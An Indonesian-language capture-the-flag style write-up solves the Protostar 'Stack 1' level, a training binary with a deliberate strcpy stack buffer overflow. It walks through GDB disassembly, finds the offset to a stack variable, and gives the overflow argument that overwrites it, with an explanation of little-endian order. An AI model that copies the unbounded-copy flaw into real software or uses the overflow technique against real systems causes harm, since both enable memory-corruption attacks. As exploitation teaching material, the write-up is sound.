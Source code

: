 # Stack 1
## Tentang
Level ini memperkenalkan konsep memodifikasi variabel ke nilai tertentu dalam program, dan bagaimana variabel diletakkan dalam memori.

## Source Code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

## Target Exploits
Pada level ini kita ditargetkan untuk mengubah variabel **modified** menjadi 0x61626364 untuk mencetak string "you have correctly got the variable to the right value". Pada program diatas, input kita disimpan pada kedalam buffer menggunakan fungsi **strcpy()**.

## Kerentanan Program
**strcpy()** bukanlah fungsi yang berbahaya seperti gets(), namun pada program diatas, ia tidak menentukan seberapa banyak buffer bisa disimpan di dalam alamat memory sehingga kita dapat menimpa alamat alamat seterusnya. Ini yang akan kita manfaatkan untuk menimpa nilai dari modified variabel.


## Lets Dive Deeper
**[!] Disclaimer** saya disini memindahkannya dari Protostar machine kedalam local maschine saya, agar lebih mudah untuk menganalisis programnya. Disini saya juga menggunakan ekstensi dari GDB yaitu gef. Jadi alamat pada machine anda mungkin berbeda.

> **gdb --args stack1 AAAA** </br>
> **disass main**
```
   0x08048464 <+0>:	push   ebp
   0x08048465 <+1>:	mov    ebp,esp
   0x08048467 <+3>:	and    esp,0xfffffff0
   0x0804846a <+6>:	sub    esp,0x60
   0x0804846d <+9>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x08048471 <+13>:	jne    0x8048487 <main+35>
   0x08048473 <+15>:	mov    DWORD PTR [esp+0x4],0x80485a0
   0x0804847b <+23>:	mov    DWORD PTR [esp],0x1
   0x08048482 <+30>:	call   0x8048388 <errx@plt>
   0x08048487 <+35>:	mov    DWORD PTR [esp+0x5c],0x0
   0x0804848f <+43>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048492 <+46>:	add    eax,0x4
   0x08048495 <+49>:	mov    eax,DWORD PTR [eax]
   0x08048497 <+51>:	mov    DWORD PTR [esp+0x4],eax
   0x0804849b <+55>:	lea    eax,[esp+0x1c]
   0x0804849f <+59>:	mov    DWORD PTR [esp],eax
   0x080484a2 <+62>:	call   0x8048368 <strcpy@plt>
   0x080484a7 <+67>:	mov    eax,DWORD PTR [esp+0x5c]
   0x080484ab <+71>:	cmp    eax,0x61626364
   0x080484b0 <+76>:	jne    0x80484c0 <main+92>
   0x080484b2 <+78>:	mov    DWORD PTR [esp],0x80485bc
   0x080484b9 <+85>:	call   0x8048398 <puts@plt>
   0x080484be <+90>:	jmp    0x80484d5 <main+113>
   0x080484c0 <+92>:	mov    edx,DWORD PTR [esp+0x5c]
   0x080484c4 <+96>:	mov    eax,0x80485f3
   0x080484c9 <+101>:	mov    DWORD PTR [esp+0x4],edx
   0x080484cd <+105>:	mov    DWORD PTR [esp],eax
   0x080484d0 <+108>:	call   0x8048378 <printf@plt>
   0x080484d5 <+113>:	leave
   0x080484d6 <+114>:	ret
```

Dapat kita lihat bahwa di alamat **0x080484a2** terdapat fungsi strcpy() yang meminta argument ketika program dijalankan, disini kita memasukkan argumen AAAA kedalam programnya. Setelah strcpy() dijalankan kita dapat melihat pada alamat **0x080484ab** terdapat perintah cmp. Pada assembly cmp digunakan untuk membandingkan nilai satu sama lain, disini dapat dilihat register **eax** dan **0x61626364** yang dibandingkan. Namun apa nilai eax?. Lets find out! </br>

Kita dapat meletakkan breakpoint pada alamat **0x080484ab** untuk melihat nilainya
> b *0x080484ab </br>
> r </br>
> x/wx $esp+0x5c  </br>
> x/wx $eax  </br>

```
gef➤  x/wx $esp+0x5c
0xffffcdcc:	0x00000000
gef➤  x/wx $eax
0x0:	Cannot access memory at address 0x0
```

Dapat kita lihat bahwa nilai dari $esp+0x5c yang dimasukkan kedalam eax adalah 0. Jadi kita dapat menduga bahwa $esp+0x5c adalah dimana nilai modified variabel disimpan. </br>
Sekarang kita sudah mengetahui dimana modified variabel disimpan, tapi seberapa banyak karakter yang kita butuhkan untuk mengubah nilainya? </br></br>

Pertama tama kita cari tahu terlebih dahulu dimana input kita disimpan. Pada alamat **0x0804849b** kita dapat melihat perintah lea *(load effective address)*, cara bekerjanya sedikit mirip dengan *mov*. Jadi coba kita lihat berapa nilai dari **$esp+0x1c**

> x/wx $esp+0x1c </br>

```
gef➤  x/wx $esp+0x1c
0xffffcd8c:	0x41414141
```

Nah 0x41414141 adalah **AAAA** yang kita masukkan sebagai argumen pada program. Jadi dapat disimpulkan alamat input kita berada pada **0xffffcd8c** dan alamat yang ingin kita ubah adalah **0xffffcdcc**. Terlihat tidak begitu jauh bukan?. Coba kita hitung seberapa banyak yang kita butuhkan.

>p/d 0xffffcdcc - 0xffffcd8c

```
gef➤  p/d 0xffffcdcc - 0xffffcd8c
$2 = 64
```

Kita sekarang tau bahwa kita membutuhkan 64 karakter untuk sampai ke alamat tersebut. Mari kita coba!

```
./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Try again, you got 0x00000000
```

Kita masih belum mengubah variabel nya, coba kita tambahkan string **BBBB** setelahnya

```
./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Try again, you got 0x42424242
```

Dapat dilihat bahwa **0x42424242** muncul sebagai representasi dari **BBBB**. Masih ingatkah anda dengan target utama kita?, yaitu mengubah variabel modified menjadi 0x61626364, yang artinya **BBBB** kita ganti dengan hex tersebut dalam ASCII. Coba kita lihat berapa hex tersebut dalam ASCII

> python </br>
> chr(0x61) + chr(0x62) + chr(0x63) + chr(0x64)

```
python
>>> chr(0x61) + chr(0x62) + chr(0x63) + chr(0x64)
'abcd'
```
Sudah kita ketahui sekarang apa saja yang kita butuhkan untuk mengubah variabelnya, mari kita coba kembali
```
./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAabcd 
Try again, you got 0x64636261
```

Ha? mengapa kita mendapatkan **0x64636261** bukan **0x61626364**?. Itu terjadi karena litle endian.

### Litle Endian
> Little-endian Menyimpan byte paling tidak signifikan (yang disebut “ujung paling kecil”) terlebih dahulu. Ini berarti bahwa byte pertama (pada alamat memori terendah) adalah yang terkecil, yang paling masuk akal bagi orang, yaitu membaca dari kanan ke kiri

Sekarang kita sudah mengetahui apa itu litle endian, mari kita coba sekali lagi dengan membaliknya menjadi **dcba** untuk mengalahkan level ini!
```
./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
you have correctly got the variable to the right value
```

Yeay! Kita berhasil menyelesaikannya
